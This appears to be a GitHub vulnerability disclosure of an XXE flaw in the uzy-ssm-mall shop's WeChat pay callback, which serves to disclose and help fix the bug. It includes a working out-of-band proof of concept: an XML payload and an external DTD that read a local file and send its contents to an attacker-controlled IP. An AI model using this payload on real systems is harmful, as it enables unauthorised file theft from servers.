






# There is a XXE vulnerability in **[uzy-ssm-mall](https://github.com/ghostxbh/uzy-ssm-mall)**. An attacker can register an arbitrary ordinary user to exploit this vulnerability.

path：/mall/wxpay/pay

com.uzykj.mall.controller.ForeWeixinPayController#weixin_notify() directly parses the request body into XML：



com.uzykj.mall.util.pay.wx.util.WxpayUtil#doXMLParse() method does not disable external entities when performing XML parsing：



No print poc：

```javap
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY % xd SYSTEM 'http://192.168.32.128:8162/evil.dtd'>
    %xd;
]>
<root>&bbbb;</root>
```

evil.dtd content：

```javap
<!ENTITY % aaaa SYSTEM "file:///D:/CodeAudit/uzy-ssm-mall-master/uzy-ssm-mall-master/1.txt">
<!ENTITY % demo "<!ENTITY bbbb SYSTEM 'http://192.168.32.128:8172?file=%aaaa;'>">
%demo;
```

1.txt file contents：



test：







Read file successfully。

